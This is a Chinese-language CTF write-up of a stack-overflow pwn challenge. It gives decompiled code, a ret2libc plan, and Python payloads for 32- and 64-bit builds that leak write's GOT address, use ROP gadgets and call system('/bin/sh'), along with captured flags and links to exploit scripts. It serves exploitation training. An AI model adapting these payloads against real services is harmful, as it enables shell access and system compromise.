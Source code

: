 ## 1.作业要求：
分析附件中的2个有漏洞的程序（同一个代码编译的32位版本、64位版本），获取部署了该漏洞程序的目标服务器中的flag（一个文件的内容，格式大概为：flag{...}），即为攻击成功。
附件中包含2个程序的可执行文件，以及可能需要的libc库。编写你的exploit，完成本地测试之后，去目标服务器验证。

## 2.反汇编代码
vuln32：
```
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}

int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h]
  char v3[51]; // [esp+5h] [ebp-43h]
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
## 3.思路：
漏洞点：char v3[51]数据读取无验证越界，导致栈溢出。
防护：  
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn3.png)<br>
奇怪的是开启canary，但是无法修改无法触发。主要就是考虑过NX。
本题提供了libc，就是使用write函数将got表中write（read）地址作为参数，调用plt表中的write函数，得到基地址后加上libc中的system函数在程序中的偏移，就得到了system函数的实际地址，进行调用即可。
### 1 [32bit]
####(1)发送payload溢出覆盖return，返回到glt表write函数，输出got表中write的地址，并返回到main函数。
也就是先调用write(1,write函数地址,4)，第一个参数文件描述符等于1表示输出，4代表输出的长度，中间的就是输出的内容，调用完成后返回主函数，得到基地址后为泄露system函数的地址做准备。
Payload:
```
num = 51 
payload = num * 'a'+'\x47'
payload += p32(elf.symbols['write'])
#payload += p32(0x80486b2)
payload += p32(elf.symbols['main'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
```
#### (2)计算出libc中system（）和bin/sh中的地址
write_addr - system_addr == write_addr_libc - system_addr_libc
```
wirte_offset = libc.symbols['write']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search('/bin/sh'))
libc_base = write_addr -wirte_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
```
#### (3)再次发送payload溢出覆盖return，返回到system（）利用参数bin/sh，执行命令。
```
payload2 = 'a'*num + '\x47'
payload2 += p32(system_addr)
payload2 += p32(1)
payload2 += p32(bin_sh_addr)
```
__get flag__: flag{Ok_yOu_get@#$_it!}   
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn1.PNG)<br>
### [64bit]
x64思路相同，区别在于参数传递需要通过寄存器入栈。
>在x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈.

索要就要找到通过32bit我们知道write，需要三个参数，即用到rdi、rsi、rdx三个寄存器。
利用工具[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  --binary 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段。
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn4.png)<br>
可以看到前面两个都可以找到合适的gadget，但是 pop rdx 的却找不到，也就是write函数的第三个参数是我们不能控制的，但是在动态调试时候，在read函数处下断点可以看到，此时的rdx是为 0x200，也就是说 write 函数的标准输出的长度为0x200字节，这里只要大于8个字节（地址长度），我们都可以得到read函数的真实地址（got表中的地址）
payload：
```
pop_rdi_addr = 0x0000000000400933 #pop rdi ; ret
pop_rsi_addr = 0x0000000000400931 # pop rsi ; pop r15 ; ret
payload = num * 'a'+'\x47'
payload += p64(pop_rdi_addr)
payload += p64(1)

payload += p64(pop_rsi_addr)        
payload += p64(elf.got['write'])  #rsi      
payload += p64(0)   #r15

payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])   
```
payload2:
```
payload2 += p64(pop_rdi_addr)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
```
__get flag__: flag{__you_are_so_Cu7e_!!}   
![](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/images/pwn2.png)<br>
# EXP
[32bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp.py)
[64bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp664.py)


